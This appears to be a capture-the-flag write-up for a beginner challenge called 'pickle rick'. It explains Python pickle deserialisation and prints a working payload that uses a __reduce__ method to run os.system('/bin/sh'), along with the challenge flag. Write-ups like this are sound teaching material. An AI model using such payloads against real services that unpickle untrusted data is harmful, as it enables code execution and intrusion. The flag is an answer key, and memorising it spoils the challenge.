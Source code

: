 # Writeup for `pickle rick`

| author | category | value |
|--------|----------|-------|
|  poi   |   misc   |  100  |

I've turned myself into a pickle, Morty!!

| cost |                content                 |
|------|----------------------------------------|
|  10  | Rick is pretty based, based64 even...? |

## Solution

<details>
<summary>Click here to reveal the solution!</summary>

## The Big Idea

The challenge involves exploiting a Python program that uses `pickle` to deserialise data from a base64-encoded string. The goal is to craft a payload that, when deserialised by the program, executes arbitrary code, leading to a privilege escalation or arbitrary command execution.

The solution involves creating a malicious class with a specially crafted `__reduce__` method, which is called during deserialisation by `pickle`. By returning a tuple containing a function and its arguments, we can instruct `pickle` to execute arbitrary code when deserialising the object.

```python
import pickle
import base64

class MaliciousClass:
    def __reduce__(self):
        import os
        return (os.system, ('/bin/sh',))

malicious_instance = MaliciousClass()

pickled_malicious_instance = pickle.dumps(malicious_instance)

encoded_payload = base64.b64encode(pickled_malicious_instance).decode('utf-8')
print(encoded_payload)
```
We then copy the encoded payload into the program, which it then unpickles and executes, granting us a shell. From here we can `cat recipe` and find the flag.

### Flag(s)

- `BEGINNER{turn3d_my53lf_1nt0_4_p1ckl3}`

</details>
